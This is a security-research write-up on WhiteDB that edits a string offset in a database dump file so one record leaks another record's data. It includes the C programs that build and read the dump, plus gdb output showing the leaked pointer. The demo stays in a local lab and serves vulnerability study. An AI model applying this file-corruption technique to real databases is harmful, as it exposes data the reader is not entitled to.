



## Record Leaking

So for this demo, I will show you can edit a record to display data from another record. The process will be fairly simple. Effectively I will be editing a string field of one record (a string that is stored as an offset). I will simply edit the offset to point into another record, then query the string and print it to leak information from another record.

Here is the source code file I use to generate the database. One thing I noted, if you run this executable multiple times, it will create and insert new records every time. Also this and the next source code files are heavily based off of the examples:

```
$	cat make_leak_db.c
#include "../Db/dbapi.h"

int main(int argc, char **argv) {
  void *db, *rec0, *rec1;
  wg_int int0, string0, string1;

  // Make/attach the db
  db = wg_attach_database("leak-db-0", 250000);

  // Make the records
  rec0 = wg_create_record(db, 10);
  rec1 = wg_create_record(db, 10);

  // Make the values to insert into the records
  int0 = wg_encode_int(db, 0x50);

  string0 = wg_encode_str(db, "Somewhere in the stratosphere", NULL);
  string1 = wg_encode_str(db, "have to think twice before you", NULL);

  // Store the values in the records
  wg_set_field(db, rec0, 0, int0);
  wg_set_field(db, rec0, 1, int0);
  wg_set_field(db, rec0, 2, int0);
  wg_set_field(db, rec0, 3, string0);

  wg_set_field(db, rec1, 0, int0);
  wg_set_field(db, rec1, 1, int0);
  wg_set_field(db, rec1, 2, int0);
  wg_set_field(db, rec1, 3, string1);

  // Dump the records
  wg_dump(db, "leak-db-file-0");

  wg_delete_database("leak-db-0");

  return 0;
}

$	 cc -O2 -I.. -o make_leak_db make_leak_db.c ../whitedb.c -l
```

Here is the source code for the file I used to print the string:

```
$	cat leak_records.c
#include <limits.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>
#ifndef _WIN32
#include <sys/types.h>
#include <pwd.h>
#include <grp.h>
#endif

#ifdef _WIN32
#include <conio.h> // for _getch
#endif

#ifdef __cplusplus
extern "C" {
#endif

#ifdef _WIN32
#include "../config-w32.h"
#else
#include "../config.h"
#endif
#include "../Db/dballoc.h"
#include "../Db/dbmem.h"
#include "../Db/dbdata.h"
#include "../Db/dbdump.h"
#include "../Db/dblog.h"
#include "../Db/dbquery.h"
#include "../Db/dbutil.h"
#include "../Db/dblock.h"
#include "../Db/dbjson.h"
#include "../Db/dbschema.h"
#ifdef USE_REASONER
#include "../Parser/dbparse.h"
#endif


#define FLAGS_LOGGING 0x2


/* ======= Private protos ================ */


int main(int argc, char **argv) {

  char *shmname = NULL;
  void *shmptr = NULL;
  void *rec, *stored_rec;
  wg_int int0, int1, int2, string, rec_encoded;
  int i, scan_to, len;
  gint shmsize;
  wg_int rlock = 0;
  wg_int wlock = 0;
  wg_int minsize, maxsize, err;
  wg_int flags = 0;


  shmsize = 0; /* 0 size causes default size to be used */

  err = wg_check_dump(NULL, "corrupted", &minsize, &maxsize);

  shmptr=wg_attach_memsegment(shmname, minsize, maxsize, 1,
    (flags & FLAGS_LOGGING), 0);

  // Import the database
  wg_import_dump(shmptr, "corrupted");

  rec = wg_get_first_record(shmptr);

  while (rec != NULL) {
	len = wg_get_record_len(shmptr, rec);

	if (len >= 3) {
		int0 = wg_get_field(shmptr, rec, 0);
		int1 = wg_get_field(shmptr, rec, 1);
		int2 = wg_get_field(shmptr, rec, 2);

		if ((int0 == int1) && (int1 == int2)) {
			if (int0 == 0x283) {
				string = wg_get_field(shmptr, rec, 3);
				printf("String: %s\n", (char *)wg_decode_str(shmptr, string));
			}
		}
	}

	rec = wg_get_next_record(shmptr, rec);
  }
}

$	cc -O2 -I.. -o leak_records leak_records.c ../whitedb.c -lm
```

Now, let's create the database file `leak-db-file-0`:

```
$	./make_leak_db
$	ls
backup-corrupted  leak-db-file-0  leak_records.c  make_leak_db.c
corrupted         leak_records    make_leak_db    record_leaking.md
```

So let's take a look at this file. We see when we have the correct file, it prints out two strings:

```
$	cp leak-db-file-0 corrupted
$	./leak_records 
String: Somewhere in the stratosphere
String: have to think twice before you
```

Now let's take a look inside the actual db file:

```
$	ghex corrupted
```

Now searching for the value `0x8302`, we find our records. I inserted the int `0x50` (encode to be `0x0283`) into the records, so we could easily find them like this:



Here, we see the int `0x50` encode three times at the start of both records, as expected. We also see the two following string offsets:

```
0x011756
0x011776
```

Which when we look at those offsets in the file, we see the two strings that were printed:



Now let's edit the offset of the second record. We will be changing the offset for the string for the second record from `0x011776` to the offset `0xb7a6` (after encoding is removed, it will be `0xb7a0`). This should leak the string offset from the first record, which is `0x011756`.



Also if you want, instead of editing it, you could just also copy over the `backup-corrupted` file:

```
$	cp backup-corrupted corrupted
```

Now, when we run it again to print the strings, we see this. We see we fail the CRC32 checksum check, however since it doesn't appear to do anything by failing the check other than printing that message, I didn't bother with it:

```
$	./leak_records 
wg dump error: File CRC32 incorrect: corrupted.
String: Somewhere in the stratosphere
String: V
```

And in gdb, we see it's actually printing the address `0x011756`:

```
gdb ./leak_records
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
93 commands loaded for GDB 9.2 using Python engine 3.8
[*] 3 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./leak_records...
(No debugging symbols found in ./leak_records)
gef➤  disas main
Dump of assembler code for function main:
   0x00000000000026a0 <+0>:	endbr64 
   0x00000000000026a4 <+4>:	push   r14
   0x00000000000026a6 <+6>:	xor    edi,edi
   0x00000000000026a8 <+8>:	lea    rsi,[rip+0x19955]        # 0x1c004
   0x00000000000026af <+15>:	push   r13
   0x00000000000026b1 <+17>:	push   r12
   0x00000000000026b3 <+19>:	push   rbp
   0x00000000000026b4 <+20>:	push   rbx
   0x00000000000026b5 <+21>:	sub    rsp,0x20
   0x00000000000026b9 <+25>:	mov    rax,QWORD PTR fs:0x28
   0x00000000000026c2 <+34>:	mov    QWORD PTR [rsp+0x18],rax
   0x00000000000026c7 <+39>:	xor    eax,eax
   0x00000000000026c9 <+41>:	lea    rcx,[rsp+0x10]
   0x00000000000026ce <+46>:	lea    rdx,[rsp+0x8]
   0x00000000000026d3 <+51>:	call   0x129e0 <wg_check_dump>
   0x00000000000026d8 <+56>:	mov    rdx,QWORD PTR [rsp+0x10]
   0x00000000000026dd <+61>:	xor    r9d,r9d
   0x00000000000026e0 <+64>:	xor    r8d,r8d
   0x00000000000026e3 <+67>:	mov    rsi,QWORD PTR [rsp+0x8]
   0x00000000000026e8 <+72>:	xor    edi,edi
   0x00000000000026ea <+74>:	mov    ecx,0x1
   0x00000000000026ef <+79>:	call   0x1b210 <wg_attach_memsegment>
   0x00000000000026f4 <+84>:	lea    rsi,[rip+0x19909]        # 0x1c004
   0x00000000000026fb <+91>:	mov    rbx,rax
   0x00000000000026fe <+94>:	mov    rdi,rax
   0x0000000000002701 <+97>:	call   0x1b830 <wg_import_dump>
   0x0000000000002706 <+102>:	mov    rdi,rbx
   0x0000000000002709 <+105>:	call   0xfe50 <wg_get_first_record>
   0x000000000000270e <+110>:	test   rax,rax
   0x0000000000002711 <+113>:	je     0x27d0 <main+304>
   0x0000000000002717 <+119>:	mov    rbp,rax
   0x000000000000271a <+122>:	lea    r13,[rip+0x198ed]        # 0x1c00e
   0x0000000000002721 <+129>:	jmp    0x273f <main+159>
   0x0000000000002723 <+131>:	nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000002728 <+136>:	mov    rsi,rbp
   0x000000000000272b <+139>:	mov    rdi,rbx
   0x000000000000272e <+142>:	call   0xfde0 <wg_get_next_record>
   0x0000000000002733 <+147>:	mov    rbp,rax
   0x0000000000002736 <+150>:	test   rax,rax
   0x0000000000002739 <+153>:	je     0x27d0 <main+304>
   0x000000000000273f <+159>:	mov    rsi,rbp
   0x0000000000002742 <+162>:	mov    rdi,rbx
   0x0000000000002745 <+165>:	call   0xff70 <wg_get_record_len>
   0x000000000000274a <+170>:	cmp    eax,0x2
   0x000000000000274d <+173>:	jle    0x2728 <main+136>
   0x000000000000274f <+175>:	xor    edx,edx
   0x0000000000002751 <+177>:	mov    rsi,rbp
   0x0000000000002754 <+180>:	mov    rdi,rbx
   0x0000000000002757 <+183>:	call   0x10240 <wg_get_field>
   0x000000000000275c <+188>:	mov    edx,0x1
   0x0000000000002761 <+193>:	mov    rsi,rbp
   0x0000000000002764 <+196>:	mov    rdi,rbx
   0x0000000000002767 <+199>:	mov    r14,rax
   0x000000000000276a <+202>:	call   0x10240 <wg_get_field>
   0x000000000000276f <+207>:	mov    edx,0x2
   0x0000000000002774 <+212>:	mov    rsi,rbp
   0x0000000000002777 <+215>:	mov    rdi,rbx
   0x000000000000277a <+218>:	mov    r12,rax
   0x000000000000277d <+221>:	call   0x10240 <wg_get_field>
   0x0000000000002782 <+226>:	cmp    r14,r12
   0x0000000000002785 <+229>:	sete   dl
   0x0000000000002788 <+232>:	cmp    r12,rax
   0x000000000000278b <+235>:	sete   al
   0x000000000000278e <+238>:	test   dl,al
   0x0000000000002790 <+240>:	je     0x2728 <main+136>
   0x0000000000002792 <+242>:	cmp    r14,0x283
   0x0000000000002799 <+249>:	jne    0x2728 <main+136>
   0x000000000000279b <+251>:	mov    edx,0x3
   0x00000000000027a0 <+256>:	mov    rsi,rbp
   0x00000000000027a3 <+259>:	mov    rdi,rbx
   0x00000000000027a6 <+262>:	call   0x10240 <wg_get_field>
   0x00000000000027ab <+267>:	mov    rdi,rbx
   0x00000000000027ae <+270>:	mov    rsi,rax
   0x00000000000027b1 <+273>:	call   0x119a0 <wg_decode_str>
   0x00000000000027b6 <+278>:	mov    rsi,r13
   0x00000000000027b9 <+281>:	mov    edi,0x1
   0x00000000000027be <+286>:	mov    rdx,rax
   0x00000000000027c1 <+289>:	xor    eax,eax
   0x00000000000027c3 <+291>:	call   0x2600 <__printf_chk@plt>
   0x00000000000027c8 <+296>:	jmp    0x2728 <main+136>
   0x00000000000027cd <+301>:	nop    DWORD PTR [rax]
   0x00000000000027d0 <+304>:	mov    rax,QWORD PTR [rsp+0x18]
   0x00000000000027d5 <+309>:	xor    rax,QWORD PTR fs:0x28
   0x00000000000027de <+318>:	jne    0x27ef <main+335>
   0x00000000000027e0 <+320>:	add    rsp,0x20
   0x00000000000027e4 <+324>:	xor    eax,eax
   0x00000000000027e6 <+326>:	pop    rbx
   0x00000000000027e7 <+327>:	pop    rbp
   0x00000000000027e8 <+328>:	pop    r12
   0x00000000000027ea <+330>:	pop    r13
   0x00000000000027ec <+332>:	pop    r14
   0x00000000000027ee <+334>:	ret    
   0x00000000000027ef <+335>:	call   0x2460 <__stack_chk_fail@plt>
End of assembler dump.
gef➤  b *main+291
Breakpoint 1 at 0x27c3
gef➤  r
Starting program: /Hackery/beyond_oblivion/whitedb/record_leaking/leak_records 
wg dump error: File CRC32 incorrect: corrupted.

Breakpoint 1, 0x00005555555567c3 in main ()
/home/guyinatuxedo/.gdbinit-gef.py:2469: DeprecationWarning: invalid escape sequence '\A'
  res = gdb.Value(address).cast(char_ptr).string(encoding=encoding, length=length).strip()

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x000055555557d480  →  0x00007ffff7c2e000  →  0x000008004973b223
$rcx   : 0x6               
$rdx   : 0x00007ffff7c3f750  →  "Somewhere in the stratosphere"
$rsp   : 0x00007fffffffdf80  →  0x00007ffff7fd15e0  →   endbr64 
$rbp   : 0x00007ffff7c39770  →  0x0000000000000068 ("h"?)
$rsi   : 0x000055555557000e  →  "String: %s\n"
$rdi   : 0x1               
$rip   : 0x00005555555567c3  →  <main+291> call 0x555555556600 <__printf_chk@plt>
$r8    : 0x00007ffff7c2e000  →  0x000008004973b223
$r9    : 0x00007ffff7c39770  →  0x0000000000000068 ("h"?)
$r10   : 0x00007ffff7c2e050  →  0x0000000000002000
$r11   : 0x3f              
$r12   : 0x283             
$r13   : 0x000055555557000e  →  "String: %s\n"
$r14   : 0x283             
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf80│+0x0000: 0x00007ffff7fd15e0  →   endbr64 	 ← $rsp
0x00007fffffffdf88│+0x0008: 0x0000000000020af0
0x00007fffffffdf90│+0x0010: 0x000000000003d090
0x00007fffffffdf98│+0x0018: 0xf8fb47bdc3b88400
0x00007fffffffdfa0│+0x0020: 0x000055555556f9f0  →  <__libc_csu_init+0> endbr64 
0x00007fffffffdfa8│+0x0028: 0x0000000000000000
0x00007fffffffdfb0│+0x0030: 0x0000555555556800  →  <_start+0> endbr64 
0x00007fffffffdfb8│+0x0038: 0x00007fffffffe0b0  →  0x0000000000000001
──────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5555555567b9 <main+281>       mov    edi, 0x1
   0x5555555567be <main+286>       mov    rdx, rax
   0x5555555567c1 <main+289>       xor    eax, eax
 → 0x5555555567c3 <main+291>       call   0x555555556600 <__printf_chk@plt>
   ↳  0x555555556600 <__printf_chk@plt+0> endbr64 
      0x555555556604 <__printf_chk@plt+4> bnd    jmp QWORD PTR [rip+0x2598d]        # 0x55555557bf98 <__printf_chk@got.plt>
      0x55555555660b <__printf_chk@plt+11> nop    DWORD PTR [rax+rax*1+0x0]
      0x555555556610 <shmctl@plt+0>   endbr64 
      0x555555556614 <shmctl@plt+4>   bnd    jmp QWORD PTR [rip+0x25985]        # 0x55555557bfa0 <shmctl@got.plt>
      0x55555555661b <shmctl@plt+11>  nop    DWORD PTR [rax+rax*1+0x0]
──────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
__printf_chk@plt (
   $rdi = 0x0000000000000001,
   $rsi = 0x000055555557000e → "String: %s\n",
   $rdx = 0x00007ffff7c3f750 → "Somewhere in the stratosphere"
)
──────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "leak_records", stopped 0x5555555567c3 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x5555555567c3 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  c
Continuing.
String: Somewhere in the stratosphere

Breakpoint 1, 0x00005555555567c3 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x000055555557d480  →  0x00007ffff7c2e000  →  0x000008004973b223
$rcx   : 0x6               
$rdx   : 0x00007ffff7c397a0  →  0x0000000000011756
$rsp   : 0x00007fffffffdf80  →  0x00007ffff7fd15e0  →   endbr64 
$rbp   : 0x00007ffff7c397d8  →  0x0000000000000068 ("h"?)
$rsi   : 0x000055555557000e  →  "String: %s\n"
$rdi   : 0x1               
$rip   : 0x00005555555567c3  →  <main+291> call 0x555555556600 <__printf_chk@plt>
$r8    : 0x00007ffff7c2e000  →  0x000008004973b223
$r9    : 0x00007ffff7c397d8  →  0x0000000000000068 ("h"?)
$r10   : 0x00007ffff7c2e050  →  0x0000000000002000
$r11   : 0x3f              
$r12   : 0x283             
$r13   : 0x000055555557000e  →  "String: %s\n"
$r14   : 0x283             
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf80│+0x0000: 0x00007ffff7fd15e0  →   endbr64 	 ← $rsp
0x00007fffffffdf88│+0x0008: 0x0000000000020af0
0x00007fffffffdf90│+0x0010: 0x000000000003d090
0x00007fffffffdf98│+0x0018: 0xf8fb47bdc3b88400
0x00007fffffffdfa0│+0x0020: 0x000055555556f9f0  →  <__libc_csu_init+0> endbr64 
0x00007fffffffdfa8│+0x0028: 0x0000000000000000
0x00007fffffffdfb0│+0x0030: 0x0000555555556800  →  <_start+0> endbr64 
0x00007fffffffdfb8│+0x0038: 0x00007fffffffe0b0  →  0x0000000000000001
──────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5555555567b9 <main+281>       mov    edi, 0x1
   0x5555555567be <main+286>       mov    rdx, rax
   0x5555555567c1 <main+289>       xor    eax, eax
 → 0x5555555567c3 <main+291>       call   0x555555556600 <__printf_chk@plt>
   ↳  0x555555556600 <__printf_chk@plt+0> endbr64 
      0x555555556604 <__printf_chk@plt+4> bnd    jmp QWORD PTR [rip+0x2598d]        # 0x55555557bf98 <__printf_chk@got.plt>
      0x55555555660b <__printf_chk@plt+11> nop    DWORD PTR [rax+rax*1+0x0]
      0x555555556610 <shmctl@plt+0>   endbr64 
      0x555555556614 <shmctl@plt+4>   bnd    jmp QWORD PTR [rip+0x25985]        # 0x55555557bfa0 <shmctl@got.plt>
      0x55555555661b <shmctl@plt+11>  nop    DWORD PTR [rax+rax*1+0x0]
──────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
__printf_chk@plt (
   $rdi = 0x0000000000000001,
   $rsi = 0x000055555557000e → "String: %s\n",
   $rdx = 0x00007ffff7c397a0 → 0x0000000000011756
)
──────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "leak_records", stopped 0x5555555567c3 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x5555555567c3 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Looking in the `rdx` register, we see a ptr to `0x011756`. Just like that, by editing one record, we are able to display information from another record.
